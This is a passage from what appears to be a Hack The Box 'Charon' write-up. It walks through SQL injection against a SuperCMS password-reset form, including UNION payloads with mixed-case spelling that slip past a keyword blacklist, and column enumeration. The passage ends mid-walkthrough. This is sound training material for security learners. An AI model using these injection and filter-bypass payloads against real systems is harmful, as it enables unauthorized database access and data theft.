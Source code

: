 The page _login.php_ is a "Login to SuperCMS" and the pages _menu.php_ and _upload.php_ redirect to _/login.php?err=2_.
On the page _forgot.php_ it asks for an email to retrieve the password:

![Retrieve password](https://kyuu-ji.github.io/htb-write-up/charon/charon_web-1.png)

This is what we want to exploit.

### SQL Injection

When inputting anything into the field, it says _"Incorrect format"_ and when trying any email address with an @-sign it says _"User not found with that email"_.
Lets send it to **Burpsuite** to try out different characters for example a single quote:
```markdown
email=a@b.com'
```

With a single quote it says _"Error in Database"_ so it looks like it is vulnerable to **SQL Injection**.
We can try a **UNION SQL Injection** to control the output of the database:
```markdown
email=a@b.com' UNION SELECT 1-- -
```

This responds with a blank error, so we probably sent blacklisted characters. After some tries it seems that the word "UNION" is blacklisted, but only in uppercase. So sending it with a lowercase character, we get the correct error from before:
```markdown
# Test 1
email=a@b.com' UNIoN SELECT 1-- -

# Test 2
email=a@b.com' UNIoN SELECT 1,2-- -

# Test 3
email=a@b.com' UNIoN SELECT 1,2,3-- -

# Test 4
email=a@b.com' UNIoN SELECT 1,2,3,4-- -
```

On the fourth test the web page responded with _"Incorrect Format"_ instead of the other error, so something happened and lets change the format of our input:
```markdown
# Test 1
email=a@b.com' UNIoN SELECT "a@b.com",2,3,4-- -

# Test 2
email=a@b.com' UNIoN SELECT 1,"a@b.com",3,4-- -

# Test 3
email=a@b.com' UNIoN SELECT 1,2,"a@b.com",4-- -

# Test 4
email=a@b.com' UNIoN SELECT 1,2,3,"a@b.com"-- -
```
